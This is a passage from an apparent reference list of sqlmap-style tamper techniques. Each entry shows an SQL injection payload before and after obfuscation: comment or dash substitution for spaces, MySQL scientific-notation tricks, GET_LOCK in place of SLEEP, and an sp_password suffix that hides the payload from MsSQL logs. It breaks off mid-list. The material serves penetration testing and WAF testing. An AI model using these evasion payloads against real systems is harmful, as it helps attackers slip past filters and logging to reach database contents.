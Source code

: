 Splits FROM schema identifiers (e.g. `testdb.users`) with whitespace. For example:

-- First payload  
SELECT id FROM testdb.users  
  
-- After using the tamper  
SELECT id FROM testdb 9.e.users

- scientific

Abuses MySQL scientific notation. For example:

-- First payload  
1 AND ORD(MID((CURRENT_USER()),7,1))>1  
  
-- After using the tamper  
1 AND ORD 1.e(MID((CURRENT_USER 1.e( 1.e) 1.e) 1.e,7 1.e,1 1.e) 1.e)>1

- sleep2getlock

Replaces instances like `SLEEP(5)` with (e.g.) `GET_LOCK('ETgP',5)`. For example:

-- First payload  
SLEEP(5)  
  
-- After using the tamper  
GET_LOCK('xxxx',5)

- sp_password

Appends (MsSQL) function `sp_password` to the end of the payload for automatic obfuscation from DBMS logs. For example:

-- First payload  
1 AND 9227=9227--  
  
-- After using the tamper  
1 AND 9227=9227-- sp_password

- space2comment

Replaces space character (‘ ‘) with comments `/**/`

-- First payload  
SELECT passwords FROM users  
  
-- After using the tamper  
SELECT/**/passwords/**/FROM/**/users

- space2dash

Replaces space character (‘ ‘) with a dash comment (‘ — ‘) followed by a random string and a new line (‘\n’). For example:

-- First payload  
1 AND 9227=9227  
  
-- After using the tamper  
1--upgPydUzKpMX%0AAND--RcDKhIr%0A9227=9227

- space2hash
